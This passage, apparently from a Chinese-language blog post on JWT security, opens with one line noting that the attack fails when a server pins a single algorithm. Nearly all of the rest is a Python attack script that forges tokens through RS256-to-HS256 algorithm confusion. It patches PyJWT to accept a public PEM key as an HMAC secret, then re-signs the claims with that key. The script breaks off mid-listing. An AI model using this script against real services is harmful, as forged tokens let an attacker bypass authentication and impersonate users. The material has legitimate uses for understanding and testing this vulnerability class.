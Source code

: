 当 server 端严格指定只允许使用 HMAC 或者 RSA 算法其中一种时候，那这种攻击手段是没有效果的。

附上降级转型的 python 代码：

```
import jwt
import sys
import re
import argparse


class HMACAlgorithm(jwt.algorithms.HMACAlgorithm):
    def prepare_key(self, key):
        key = jwt.utils.force_bytes(key)
        return key

jwt.api_jwt._jwt_global_obj._algorithms['HS256'] = \
        HMACAlgorithm(HMACAlgorithm.SHA256)

parser = argparse.ArgumentParser(
        formatter_class=argparse.ArgumentDefaultsHelpFormatter,
        description='''Re-sign a JWT with a public key,
        changing its type from RS265 to HS256.''')
parser.add_argument('-j', '--jwt-file', dest='jwt_file',
        default='jwt.txt', metavar='FILE',
        help='''File containing the JWT.''')
parser.add_argument('-k', '--key-file', dest='keyfile',
        default='key.pem', metavar='FILE',
        help='''File containing the public PEM key.''')
parser.add_argument('-a', '--algorithm', dest='algorithm',
        default='RS256', metavar='ALGO',
        help='''Original algorithm of the JWT.''')
parser.add_argument('-n', '--no-vary', dest='no_vary',
        default=False, action='store_true',
        help='''Sign only once with the exact key given.''')
args = parser.parse_args()

with open(args.keyfile, 'r') as f:
    try:
        pubkey = f.read()
    except: 
        sys.exit(2)

with open(args.jwt_file, 'r') as f:
    try:
        token = f.read().translate(None, '\n ')
    except: 
        sys.exit(2)

try:
    jwt.decode(token, pubkey, algorithms=args.algorithm)
except jwt.exceptions.InvalidSignatureError:
    sys.stderr.write('Wrong public key! Aborting.')
    sys.exit(1)
except: 
    pass

claims = jwt.decode(token, verify=False)
headers = jwt.get_unverified_header(token)
del headers['alg']
del headers['typ']

if args.no_vary:
    sys.stdout.write(jwt.encode(claims, pubkey, algorithm='HS256',
                headers=headers).decode('utf-8'))
```